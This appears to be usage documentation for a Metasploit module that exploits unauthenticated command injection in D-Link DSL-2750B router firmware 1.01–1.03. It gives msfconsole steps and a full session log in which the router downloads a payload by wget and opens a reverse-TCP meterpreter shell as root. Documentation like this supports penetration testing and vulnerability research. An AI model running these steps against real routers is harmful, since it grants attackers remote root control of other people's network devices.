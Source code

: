 This module dlink_dsl2750b_exec_noauth exploits unauthenticated command injection vulnerability through "cli" parameter.
Vulnerable firmwares are 1.01 up to 1.03.

## Vulnerable Application

  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dsl2750b_exec_noauth`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget method and executed giving us meterpreter session


## Example

```
msf5 > use exploit/linux/http/dlink_dsl2750b_exec_noauth 
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp 
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LHOST eth0
LHOST => eth0
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LPORT 5555
LPORT => 5555
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

[*] Started reverse TCP handler on 192.168.1.6:5555 
[*] 192.168.1.1:80 Checking target version...
[*] Using URL: http://0.0.0.0:8080/1M6nI0Or6FUiW
[*] Local IP: http://192.168.1.6:8080/1M6nI0Or6FUiW
[*] Client 192.168.1.1 (Wget) requested /1M6nI0Or6FUiW
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (1104216 bytes) to 192.168.1.1
[*] Meterpreter session 25 opened (192.168.1.6:5555 -> 192.168.1.1:48989) at 2018-05-14 05:30:49 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > ls -la
Listing: /
==========

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40755/rwxr-xr-x   2554    dir   2013-03-11 07:27:09 -0400  bin
40755/rwxr-xr-x   3       dir   2013-03-11 07:27:54 -0400  data
40755/rwxr-xr-x   2482    dir   2013-03-11 07:27:56 -0400  dev
40755/rwxr-xr-x   779     dir   2013-03-11 07:27:55 -0400  etc
40755/rwxr-xr-x   690     dir   2013-03-11 07:27:55 -0400  lib
100755/rwxr-xr-x  287124  fil   2013-03-11 07:27:55 -0400  linuxrc
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:01 -0500  mnt
40755/rwxr-xr-x   56      dir   2013-03-11 07:13:15 -0400  opt
40555/r-xr-xr-x   0       dir   1969-12-31 19:00:00 -0500  proc
40755/rwxr-xr-x   270     dir   2013-03-11 07:25:43 -0400  sbin
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:00 -0500  sys
40755/rwxr-xr-x   0       dir   2016-10-08 07:54:13 -0400  tmp
40755/rwxr-xr-x   38      dir   2013-03-11 07:23:32 -0400  usr
40755/rwxr-xr-x   0       dir   2016-10-08 07:46:13 -0400  var
40755/rwxr-xr-x   2801    dir   2013-03-11 07:26:34 -0400  webs

meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.30)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
